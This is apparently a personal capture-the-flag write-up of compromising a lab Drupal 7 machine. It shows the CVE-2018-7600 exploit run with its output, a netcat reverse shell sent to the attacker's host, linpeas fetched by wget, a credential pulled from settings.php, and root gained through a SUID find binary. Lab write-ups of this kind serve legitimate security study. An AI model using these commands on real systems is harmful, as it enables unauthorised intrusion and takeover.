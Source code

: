 **IP:** _192.168.231.193_

## P-80

![[IMG/Pasted image 20240925063819.png]]

Robots.txt

![[IMG/Pasted image 20240925064523.png]]

I look up an exploit for drupal 7 and find a pretty popular straight away on github. This gives me RCE, so now i can get a reverse shell and start to enumerate the machine.

https://github.com/pimps/CVE-2018-7600

```php
./CVE-2018-7600.py http://192.168.231.193
```

```php
=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-2TKVA6lX6F11E_f0b-SZgBmA8vOM2VhjAdsgASvUAdM
[*] Triggering exploit to execute: id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```php
nc -lvnp 38888
```

```php
./CVE-2018-7600.py -c "nc 192.168.45.210 38888 -e /bin/bash"  http://192.168.231.193
```

![[IMG/Pasted image 20240925070617.png]]

I find the first flag in the home directory under local.txt.
`a75a4387ab1f0ee5a19d83879c471383`

In the web directory i also find an interesting file:

_cat flag1.txt
Every good CMS needs a config file - and so do you._

I take a look at an article about drupal to see where sensitive files might be located and start searching around.

https://www.drupal.org/docs/7/install/step-3-create-settingsphp-and-the-files-directory

`sites/default/settings.php`

![[IMG/Pasted image 20240925071726.png]]

![[IMG/Pasted image 20240925071852.png]]

Pass:R0ck3t

/home/flag4/flag4.txt

Can you use this same method to find or access the flag in root?
Probably. But perhaps it's not that easy.  Or maybe it is?

SUID

```php
find / -perm -u=s  2>/dev/null
```
- At this point i find the find is set to a SUID, but don't figure out how to use it till slightly later on.


Linpeas

```php
python3 -m http.server 80
```

```php
wget <Attacker_IP>/linpeas.sh
```

/var/www/modules/simpletest/tests/upgrade/drupal-6.user-no-password-token.database.php

```php
-rw-r--r-- 1 www-data www-data 1114 Nov 21  2013 /var/www/modules/simpletest/tests/upgrade/drupal-6.user-password-token.database.php
  'pass',
  'pass' => '$S$DAK00p3Dkojkf4O/UizYxenguXnjv',
```

dirtycow
Linux version 3.2.0-6-486 Debian

The SUID binary i found earlier needed to have the `-p` argument removed for it to work as the system was a debian:

https://gtfobins.github.io/gtfobins/find/

```php
./find . -exec /bin/sh -p \; -quit
```

changed to:

```php
./find . -exec /bin/sh \; -quit
```

This gets me root on the system, i just need the last flag to complete the box.

![[IMG/Pasted image 20240925075308.png]]

## P-51796

```php
rpcclient -U "" -N $IP
```

`Cannot connect to server.  Error was NT_STATUS_CONNECTION_REFUSED`

---

**Completed:** _07:58 2024-09-25_

